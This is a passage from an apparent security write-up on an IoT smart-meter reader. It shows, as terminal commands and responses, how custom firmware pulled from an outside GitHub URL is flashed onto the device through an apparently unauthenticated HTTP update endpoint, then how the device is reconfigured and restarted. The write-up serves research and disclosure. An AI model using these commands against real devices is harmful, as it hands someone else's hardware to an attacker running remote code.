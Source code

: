 Now it's possible to read the configuration without restarting the device, but
all secrets have already been wiped. Let's replace the firmware with our
patched version.

```
┌──(user㉿iot)-[~]
└─$ curl --include http://my-p1ib/initFwUpdate?file=https://raw.githubusercontent.com/labanskoller/temp/master/blobs/test.bin
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 15
Connection: close

{"result":true}

┌──(user㉿iot)-[~]
└─$ curl --include http://my-p1ib/getFwStatus
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 54
Connection: close

{"total":1908672,"progress":403904,"state":"flashing"}

┌──(user㉿iot)-[~]
└─$ curl --include http://my-p1ib/getFwStatus
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 55
Connection: close

{"total":1908672,"progress":1908672,"state":"finished"}
```

Now simulate that the owner configures the device to join the same Wi-Fi again
and restarts it:

```
┌──(user㉿iot)-[~]
└─$ curl --include "http://my-p1ib/setConfig?options-wifi=<REDACTED>&textfield-wifi-password=<REDACTED>&textfield-login-password=&select-fuse=25&textfield-mqtt-broker-hostname=&textfield-mqtt-broker-port=1883&textfield-mqtt-broker-username=mqtt&textfield-mqtt-broker-password=&switch-mqtt-ha-auto-discovery-enabled=on&textfield-mqtt-topic-prefix=&textfield-mqtt-cert-rootca=&textfield-mqtt-cert-device=&textfield-mqtt-cert-private-key=&textfield-transformer-ratio=1&textfield-ntp-server-0=0.se.pool.ntp.org&textfield-ntp-server-1=1.se.pool.ntp.org&textfield-ntp-server-2=2.se.pool.ntp.org&switch-debug-enabled=on&textfield-debug-hostname=&textfield-debug-port=8888&switch-wifi-dhcp-enabled=on&slider-wifi-tx-limit=44&textfield-wifi-retry-timeout=60&textfield-wifi-ap-mode-timeout=15&options-bssid=F6%3a9F%3aC2%3a<REDACTED>"
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 15
Connection: close

{"result":true}

┌──(user㉿iot)-[~]
└─$ curl --include http://my-p1ib/restart
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 11
Connection: close

restarting!

┌──(user㉿iot)-[~]
```